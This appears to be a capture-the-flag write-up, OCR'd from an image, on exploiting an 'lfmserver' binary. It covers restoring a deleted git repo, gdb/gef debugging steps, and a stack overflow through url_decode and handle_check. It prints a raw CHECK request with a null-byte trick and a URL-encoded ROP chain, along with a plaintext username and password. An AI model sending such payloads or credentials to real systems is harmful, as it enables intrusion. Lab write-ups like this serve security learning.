 ### /opt/checker_client/
Find source code here that shows how to make requests to the LFM server.

### /usr/src/lfm/.git
A git repo for the lfm server.  Get the files on to your local machine.  Zip them up and upload them to the simple http server via curl.

## LFM Server

### Restoring Git Repo Source
Run `git log --summary` and see that all the files have been deleted.  Do a `git checkout` of the commit id before the deletions to restore the source code.

### pwning lfmserver
#### leaking libc
The executable on the server is available, as well as information on the version of libc in the README.

Checking out the executable and source we find that the lfmserver binary has code not present in the source.  Particularly `handle_check` and `url_decode`.  A little fuzzing shows changing the filename lengths for the CHECK function breaks stuff.  Use `pwntools's cyclic` command to help find offsets.

Using gdb and the gef plugin we can send requests to the server and step through the processing.  Useful commands:

* `b *0x00breakpoint`
* `run`
* `continue`
* `x/60gx $rsp` - display memory around $rsp+60
* `vmmap`
* `set follow-fork-mode child` - The main process forks and we need to follow it
* `set detach-on-fork off` - For some reason it was hard to restart the initial thread after a crash if we didn't stop it as well when breaking
* `kill` - to kill a thread after it crashes
* `info threads` - show the threads
* `thr #.#` - switch to  a thread


 Further investigation shows you can both hit the `url_decode` function to overwrite the stack, as well as allow the `handle_check` function to complete in order to hit the `ret` and start the rop chain, by specifying a file that exists, followed by a %00.  For example:

```
CHECK /convert.php%00payloadgoesafter141morecharactersalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaab%BB%BB%AA%AA%00%00%00%00K%5C%40%00%00%00%00%00%06%00%00%00%00%00%00%00I%5C%40%00%00%00%00%00%20%90%40%00%00%00%00%00%AA%AA%AA%AA%00%00%00%00%20%24%40%00%00%00%00%00 LFM
User=lfmserver_user
Password=!gby0l0r0ck$$!

nope
```
